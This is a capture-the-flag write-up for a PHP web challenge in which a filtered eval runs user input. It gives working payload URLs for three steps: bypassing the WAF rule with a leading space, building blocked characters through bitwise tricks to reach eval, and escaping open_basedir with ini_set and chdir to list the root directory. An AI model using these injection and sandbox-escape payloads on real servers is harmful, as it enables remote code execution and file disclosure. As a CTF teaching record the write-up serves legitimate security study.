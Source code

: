 W3F
---

challenge link: http://web2.q21.ctfsecurinets.com:8081/


waf-config file


![image](https://user-images.githubusercontent.com/61080375/112029098-e2038400-8b5e-11eb-97dd-fd1bfacec876.png)

* we can by pass that ``!@within 1`` by putting space("%20" or "+") in fron of the ``cmd`` parameter 


http://web2.q21.ctfsecurinets.com:8081/?+cmd=123


source code:

```php
<?php

error_reporting(0);
function waf($str){
     for($i=0;$i<=strlen($str)-1;$i++){
        if ((ord($str[$i])<32) or (ord($str[$i])>126)){
            header("HTTP/1.1 403 Forbidden" );
                        exit;
        }
     }
     $blacklist = ['[A-Zb-df-km-uw-z]',' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^','~'];
        foreach ($blacklist as $blackitem) {
                if (preg_match('/' . $blackitem . '/m', $str)) {
                        header("HTTP/1.1 403 Forbidden" );
                        exit;
                        //die('You are forbidden!');
                }
        }
}
if(!isset($_GET['cmd'])){
    show_source(__FILE__);
}else{
        $str = $_GET['cmd'];
       
        waf($str);
        eval('echo '.$str.';');
}
?>

```

**char allowed**:``a e v l 1 2 3 4 5 6 7 8 9 0 @ ! # % ^ & * | ( ) _``

* we can get more charcters by combination of these charcters

![image](https://user-images.githubusercontent.com/61080375/112035180-4f1a1800-8b65-11eb-81b1-bed2baf24019.png)



```
(l|v)           =>  ~
(v|e)           =>   w
((2).(2){0}|a)  =>   s
((2).(2)|(9).(9))  =>  ;;

```
```
(((((4)._%26e_).((((9999**999999).a)%7B2%7D)%7C((0%2F0).a)%7B1%7D).((_)%26e).(((0).a%7C(e%26l))%26((_))).(((((2).a)%7Ca)%7C((8).aa))%26((_).aa)).((((1).(2))%7Cl.(9))%26(_))))).((9).a%26(a%7Cl)).((2).(2)%7C(9).(9))  => $_GET[aa]);;  

```

* we can pass ``eval`` also ,so we can exicute php code

* we can try ``eval(phpinfo());``

```css
http://web2.q21.ctfsecurinets.com:8081/?%20cmd=eval((((((1/0).(1)){0})%26(((1/0).(1)){2})|(0).(0){0})).(((((1/0).(1)){0})%26(((1/0).(1)){2})|((0).(0){0})%26(((1.5).(0)){1})|(8).(8){0}%26((1/0).(0)){0})).(((((1/0).(1)){0})%26(((1/0).(1)){2})|(0).(0){0})).(((((1/0).(1)){0})%26(((1/0).(1)){2})|((0).(0){0})%26(((1.5).(0)){1})|(8).(8){0}%26((1/0).(0)){0}|(1).(1){0}%26((0/0).(0)){1})).(((((1/0).(1)){0})%26(((1/0).(1)){2})|((0).(0){0})%26(((1.5).(0)){1})|(8).(8){0}%26((1/0).(0)){0}|(4).(4){0}%26((1/0).(0)){2}|(2).(2){0}%26((1/0).(0)){1})).(((((1/0).(1)){0})%26(((1/0).(1)){2})|((0).(0){0})%26(((1.5).(0)){1})|(4).(4){0}%26((1/0).(0)){2}|(2).(2){0}%26((1/0).(0)){1})).(((((1/0).(1)){0})%26(((1/0).(1)){2})|((0).(0){0})%26(((1.5).(0)){1})|(8).(8){0}%26((1/0).(0)){0}|(4).(4){0}%26((1/0).(0)){2}|(2).(2){0}%26((1/0).(0)){1}|(1).(1){0}%26((0/0).(0)){1})).((((0).(0){0})%26(((1.5).(0)){1})|(8).(8){0}%26((1/0).(0)){0})).((((0).(0){0})%26(((1.5).(0)){1})|(8).(8){0}%26((1/0).(0)){0}|(1).(1){0}%26((0/0).(0)){1})).(((0).(0){0}|(8).(8){0}%26((1/0).(0)){0}|(2).(2){0}%26((1/0).(0)){1}|(1).(1){0}%26((0/0).(0)){1})))
```

![image](https://user-images.githubusercontent.com/61080375/112036748-05cac800-8b67-11eb-8e5d-6336baf0a8ad.png)

![image](https://user-images.githubusercontent.com/61080375/112036858-1f6c0f80-8b67-11eb-9d9e-9edc062715d2.png)


* we can see alot of functions are disabled in that


* we found that ``ini_set()``  is not disabled,which we can use to change some of the settings in php.ini
* there is a ``/images`` dir 
* the flag location is ``/``
* so we can bypass open_basedir and use finfo to read contents

payload:**ini_set('display_errors', 1);ini_set('display_startup_errors', 1);error_reporting(E_ALL);chdir('images');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir', '/');new Finfo(0,"/");**



```css
http://web2.q21.ctfsecurinets.com:8081/?+cmd=eval(((ev).(al).((8).a%26(l)).((((4)._%26e_).((((9999**999999).a){2})|((0%2F0).a){1}).((_)%26e).(((0).a|(e%26l))%26((_))).(((((2).a)|a)|((8).aa))%26((_).aa)).((((1).(2))|l.(9))%26(_))))).((9).a%26(a|l)).((2).(2)|(9).(9)))&aa=ini_set(%27display_errors%27,%201);ini_set(%27display_startup_errors%27,%201);error_reporting(E_ALL);chdir(%27images%27);ini_set(%27open_basedir%27,%20%27..%27);chdir(%27..%27);chdir(%27..%27);chdir(%27..%27);ini_set(%27open_basedir%27,%20%27/%27);new%20Finfo(0,%22/%22);
```



![image](https://user-images.githubusercontent.com/61080375/112038804-4f1c1700-8b69-11eb-90e0-9e368ad0b74f.png)


